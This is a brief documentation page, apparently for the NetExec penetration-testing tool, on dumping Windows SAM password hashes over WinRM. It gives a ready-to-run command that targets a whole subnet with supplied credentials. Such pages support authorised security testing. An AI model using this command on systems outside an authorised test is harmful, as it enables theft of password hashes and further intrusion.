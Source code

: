 # Dump SAM

### Dump SAM hashes
Extracts and downloads SAM registry hive, and uses secretsdump.py methods locally to dump hashes

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```bash
nxc winrm 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam
```


